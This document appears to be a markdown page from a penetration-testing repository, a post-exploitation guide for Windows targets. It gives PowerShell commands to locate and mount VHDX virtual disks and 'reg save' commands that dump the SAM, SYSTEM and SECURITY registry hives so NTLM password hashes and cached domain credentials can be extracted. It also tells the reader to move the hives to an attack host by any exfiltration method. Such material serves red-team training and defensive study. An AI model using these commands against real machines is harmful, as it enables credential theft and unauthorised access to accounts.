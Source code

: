 In a post-exploitation scenario, your first goal is to identify VHDX files on the target system. VHDX files typically end with the extension `.vhdx`, and they are often found in directories associated with Hyper-V or backup storage.

- Use the following PowerShell command to search for all VHDX files on the system:
	```powershell
	Get-ChildItem -Path C:\ -Recurse -Include *.vhdx -ErrorAction SilentlyContinue | Out-File "C:\Path\To\Outfile.txt"
	```
- This command recursively searches through the file system starting from the root of the `C:\` drive for any files with a `.vhdx` extension and stores the results in the specified output file.

#### Mounting VHDX Files

Once you have identified VHDX files, the next step is to mount them to access their contents. Windows provides native support for mounting virtual disks.

- Use the following PowerShell command to mount the VHDX file:
	```powershell
	Mount-VHD -Path "C:\Path\To\VHDX\File.vhdx"
	```
- This command mounts the specified VHDX file, making its contents available as a virtual drive (usually assigned a drive letter like `E:` or `F:`).

# SAM Database and NTLM Hashes

#### Prerequisites

- Administrator privileges or SYSTEM-level access on the target machine are required to extract password hashes from the SAM (Security Account Manager) database.
- For domain-joined machines, the SECURITY hive is beneficial to extract additional credentials such as cached domain credentials.

#### Extracting NTLM Hashes from the SAM Database

1. Extract from Registry Hives: 
   To extract NTLM password hashes, you need to obtain copies of the SYSTEM, SAM, and optionally, the SECURITY registry hives. The following PowerShell commands will save these hives to a specified location on the file system.
   
    ```powershell
    reg save HKLM\SAM C:\temp\SAM
    reg save HKLM\SYSTEM C:\temp\SYSTEM
    reg save HKLM\SECURITY C:\temp\SECURITY
    ```

   - SAM Hive: Stores user account details and encrypted password hashes.
   - SYSTEM Hive: Contains the boot key necessary to decrypt the SAM.
   - SECURITY Hive (optional): Stores LSA secrets, which may contain cached domain credentials on domain-joined machines.

2. Transfer Hives to the Attack Host: 
   After extracting the registry hives, transfer them to your attack machine for offline analysis. You can use any method such as SCP, SMB, or any other exfiltration technique.

